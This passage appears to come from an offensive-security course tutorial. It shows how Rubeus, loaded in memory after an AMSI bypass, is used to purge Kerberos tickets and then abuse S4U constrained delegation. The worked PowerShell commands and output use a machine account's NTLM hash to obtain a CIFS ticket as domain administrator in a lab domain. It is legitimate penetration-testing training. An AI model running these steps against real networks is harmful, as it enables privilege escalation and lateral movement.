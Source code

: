 > Listing 38 - Disabling AMSI and downloading Rubeus into memory

Now Rubeus is loaded into memory through the _Load_ method of the _System.Reflection.Assembly_ namespace.

To interact with it, we'll take advantage of the fact that the _Main_ method is public and we can invoke all of its functionality by specifying the function name.[1](https://portal.offsec.com/courses/pen-300-9502/learning/combining-the-pieces-14687/combining-the-pieces-14955#fn-local_id_745-1)

As a simple example, let's invoke the _purge_ function to clear all Kerberos tickets from memory directly through the _Main_ method:

```
PS C:\Windows\system32> [Rubeus.Program]::Main("purge".Split())
[Rubeus.Program]::Main("purge".Split())

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0 


[*] Action: Purge Tickets
Luid: 0x0
[+] Tickets successfully purged!
PS C:\Windows\system32> 
```

> Listing 39 - Invoking the purge function from Rubeus in memory

Now we can invoke Rubeus to request the TGS for the CIFS service on file01 as administrator, which is a domain admin. To do this in a single command, we'll call the _s4u_ function and supply a series of arguments. First, we'll specify the username (/user:) and the NTLM hash (/rc4:) of the web01 machine account, which is called "web01$".

Next, we'll provide the user to impersonate with /impersonateuser:, which in our case is "administrator". These options will allow Rubeus to obtain a TGT for web01$ followed by a _S4U2self_ request to get a forwardable TGS for _administrator_ to web01.

As the final arguments, we'll supply the SPN we want to target with /msdsspn:, which is the CIFS service on file01 and finally, we'll signal the generated TGS to be loaded into memory with /ptt:

```
PS C:\Windows\system32> [Rubeus.Program]::Main("s4u /user:web01$ /rc4:12343649cc8ce713962859a2934b8cbb /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())
[Rubeus.Program]::Main("s4u /user:web01$ /rc4:12343649cc8ce713962859a2934b8cbb /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())

...

[*] Action: S4U

[*] Using rc4_hmac hash: 12343649cc8ce713962859a2934b8cbb
[*] Building AS-REQ (w/ preauth) for: 'evil.com\web01$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIEpjCCBKKgAwIBBaEDAgEWo...

[*] Action: S4U

[*] Using domain controller: dc02.evil.com (192.168.120.130)
[*] Building S4U2self request for: 'web01$@EVIL.COM'
[*] Sending S4U2self request
```